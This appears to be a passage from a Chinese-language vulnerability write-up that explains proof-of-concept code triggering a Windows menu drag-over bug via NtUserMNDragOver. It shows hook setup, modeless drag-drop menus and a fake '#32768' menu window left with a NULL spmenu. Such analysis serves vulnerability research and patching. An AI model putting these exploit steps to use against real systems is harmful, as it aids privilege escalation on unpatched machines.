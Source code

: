 然后设置Hook EVENT_SYSTEM_MENUPOPUPSTART事件和WH_CALLWNDPROC消息。

```
SetWindowsHookEx(WH_CALLWNDPROC, (HOOKPROC)WindowHookProc, hInst, GetCurrentThreadId());
SetWinEventHook(EVENT_SYSTEM_MENUPOPUPSTART,         EVENT_SYSTEM_MENUPOPUPSTART,hInst,DisplayEventProc,GetCurrentProcessId(),GetCurrentThreadId(),0);
```

之后设置了两个无模式拖放弹出菜单（之前创建的，但是不影响poc的逻辑顺序），即hMenuRoot和hMenuSub。hMenuRoot会被设置为主下拉菜单，并将hMenuSub设置为其子菜单。

```
HMENU hMenuRoot = CreatePopupMenu();
HMENU hMenuSub = CreatePopupMenu();
MENUINFO mi = `{` 0 `}`;
mi.cbSize = sizeof(MENUINFO);
mi.fMask = MIM_STYLE;
mi.dwStyle = MNS_MODELESS | MNS_DRAGDROP;
SetMenuInfo(hMenuRoot, &amp;mi);
SetMenuInfo(hMenuSub, &amp;mi);
AppendMenuA(hMenuRoot, MF_BYPOSITION | MF_POPUP, (UINT_PTR)hMenuSub, "Root");
AppendMenuA(hMenuSub, MF_BYPOSITION | MF_POPUP, 0, "Sub");
```

创建了一个类名为#32768的窗口

```
hWndFakeMenu = CreateWindowA("#32768", "MN", WS_DISABLED, 0, 0, 1, 1, nullptr, nullptr, hInst, nullptr);
```

根据msdn我们可以查询到这个#32768为系统窗口，查的资料，因为CreateWindowA()并不知道如何去填充这些数据，所以直接调用多个属性被置为0或者NULL，包括创建的菜单窗口对象属性 tagPOPUPMENU-&gt;spmenu = NULL 。

[![](https://p5.ssl.qhimg.com/t01d44d56532e3382ce.png)](https://p5.ssl.qhimg.com/t01d44d56532e3382ce.png)

然后设置wndclass的参数，再使用CreateWindowsA来创建窗口。参数可以确保只能从其他窗口、系统或应用程序来接收窗口消息。

```
WNDCLASSEXA wndClass = `{` 0 `}`;
wndClass.cbSize = sizeof(WNDCLASSEXA);
wndClass.lpfnWndProc = DefWindowProc;
wndClass.cbClsExtra = 0;
wndClass.cbWndExtra = 0;
wndClass.hInstance = hInst;
wndClass.lpszMenuName = 0;
wndClass.lpszClassName = "WNDCLASSMAIN";
RegisterClassExA(&amp;wndClass);
hWndMain = CreateWindowA("WNDCLASSMAIN", "CVE", WS_DISABLED, 0, 0, 1, 1, nullptr, nullptr, hInst, nullptr);
```

接着，使用 TrackPopupMenuEx() 来弹出 hMenuRoot ，然后再通过 GetMessageW 来获取消息，然后在 WindowHookProc 函数中由于bOnDraging被初始化为FALSE，所以直接会执行 CallNextHookEx 。由于触发了EVENT_SYSTEM_MENUPOPUPSTART事件，然后传递给 DisplayEventProc ，由于 iMenuCreated 被初始化为0，所以进入0的分支。通过 SendMessageW() 将 WM_LMOUSEBUTTON 窗口消息发送给 hWndMain 来选择 hMenuRoot 菜单项(0x5, 0x5)。这样就会触发 EVENT_SYSTEM_MENUPOPUPSTART 事件，再次执行 DisplayEventProc ，由于刚刚 iMenuCreated 自增了，所以进入分支1，导致发送消息使鼠标挪到了坐标（0x6，0x6），然后 iMenuCreated 再次进行自增。然后在主函数的消息循环中iMenuCreated大于等于1进入分支，bOnDraging被置为TRUE，然后调用被我们导出的pfnNtUserMNDragOver函数。
